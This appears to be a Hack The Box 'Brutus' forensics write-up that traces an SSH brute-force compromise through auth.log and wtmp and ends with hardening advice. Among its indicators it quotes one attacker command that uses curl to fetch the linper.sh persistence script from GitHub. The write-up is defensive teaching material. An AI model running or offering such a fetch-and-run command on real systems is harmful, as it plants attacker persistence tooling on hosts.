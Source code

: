 # HTB: Brutus - Forensic Analysis Writeup

![HTB Brutus](https://labs.hackthebox.com/storage/challenges/b7bb35b9c6ca2aee2df08cf09d7016c2.png)

## Overview

This writeup details the forensic investigation performed on the Hack The Box challenge **Brutus**. The analysis focuses on SSH authentication events, brute-force login activity, and post-compromise attacker behavior by reviewing `auth.log` and `wtmp` files extracted from a compromised Linux host.

---

## Box Information

| Attribute     | Value                  |
|---------------|------------------------|
| **Name**      | Brutus                 |
| **OS**        | Linux                  |
| **Category**  | Forensics / Incident Response |
| **Difficulty**| Medium                 |
| **Release**   | 2024                   |
| **Author**    | HTB Team               |

---

## Collected Evidence

The following log files were provided for analysis:

- **`auth.log`** – Syslog-format authentication log tracking logins, failures, and related events.
- **`wtmp`** – Binary session log that records user logins and logouts.

Both files were acquired from the target system post-compromise.

---

## Tools Used

- Command-line text utilities: `cut`, `grep`, `sort`, `uniq`, `rev`
- `last` – for parsing and viewing `wtmp`
- `head`, `less` – for manual log inspection

---

## Timeline of Events

| Date & Time         | Event Description                                      |
|---------------------|-------------------------------------------------------|
| Mar 6, 06:18:01     | CRON job executed by `confluence`                     |
| Mar 6, 06:19:54     | Successful root SSH login from `203.101.190.9`        |
| Mar 6, 06:31:33-42  | Burst of failed SSH logins; brute-force activity      |
| Mar 6, 06:31:40     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:32:44     | Successful root SSH login from `65.2.161.68`          |
| Mar 6, 06:37:34     | Successful `cyberjunkie` SSH login from `65.2.161.68` |

---

## Analysis

### Log File Time Discrepancies

- `auth.log` records the initiation of SSH authentication attempts.
- `wtmp` logs the beginning of user sessions (only after successful authentication).
- This explains the observed 1-second differences in the same event between the two logs.

---

### Log Activity Summary

**Top Programs by Log Activity:**
```bash
cat auth.log | cut -d' ' -f 6 | cut -d '[' -f 1 | sort | uniq -c | sort -nr
```
```
257 sshd
104 CRON
  8 systemd-logind
  6 sudo:
  3 groupadd
  2 usermod
  2 systemd:
  1 useradd
  1 passwd
  1 chfn
```
- High SSH activity suggests systematic brute-force attempts.
- User management commands indicate new accounts or privilege escalation steps.

---

### Brute-Force SSH Attempts

**Failed Logins:**
```bash
cat auth.log | grep Failed | cut -d: -f4 | cut -d' ' -f5- | rev | cut -d' ' -f6- | rev | sort | uniq -c | sort -nr
```
```
12 invalid user server_adm
11 invalid user svc_account
10 invalid user admin
 9 backup
 6 root
```
- The high concentration of attempts on different usernames within seconds confirms automated brute-force tools were used.

---

### Successful SSH Logins

**Accepted Passwords:**
```bash
cat auth.log | grep "Accepted password"
```
```
Mar  6 06:19:54 - root login from 203.101.190.9
Mar  6 06:31:40 - root login from 65.2.161.68
Mar  6 06:32:44 - root login from 65.2.161.68
Mar  6 06:37:34 - cyberjunkie login from 65.2.161.68
```
- The attacker succeeded in logging in as `root` and later as `cyberjunkie` from `65.2.161.68`, immediately after the brute-force burst.

---

### Indicators of Compromise (IoCs)

- **Malicious IP Address:** `65.2.161.68` (primary attack source)
- **Compromised Accounts:** `root`, `cyberjunkie`
- **Attack Vector:** SSH brute-force followed by successful password authentication
- **Suspicious Activity:** Downloaded and executed `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh` (potential post-exploitation script)

---

## Observations

- **Automation:** The attacker used scripts or tools to automate SSH login attempts for common usernames.
- **Persistence:** Creation/use of a secondary user (`cyberjunkie`) for persistent access.
- **Post-exploitation:** The use of `linper.sh` suggests attempts at privilege escalation or enumeration.

---

## Recommendations

- **Disable direct SSH login for root**:
    ```
    PermitRootLogin no
    ```
- **Enforce key-based SSH authentication**:
    ```
    PasswordAuthentication no
    ```
- **Limit authentication attempts**:
    ```
    MaxAuthTries 3
    ```
- **Deploy fail2ban or similar** to block brute-force attempts.
- **Rotate all passwords** for affected or exposed accounts.
- **Audit for persistence**: Review for new/unknown user accounts.
- **Perform full forensic imaging** of memory and disk for deeper investigation.

---

## Conclusion

The investigation confirms a brute-force SSH attack from `65.2.161.68` led to compromise of the `root` and `cyberjunkie` accounts. The attacker established persistence and ran post-exploitation scripts due to insufficient SSH hardening. Implementation of best practices for SSH security and intrusion prevention is strongly recommended to prevent future incidents.

---
## Pwned
https://labs.hackthebox.com/achievement/sherlock/1390647/631

**Author:** Krish Patel  
**Date:** June 2, 2025 
**Tags:** `hackthebox` `forensics` `incident-response` `ssh` `bruteforce` `linux`
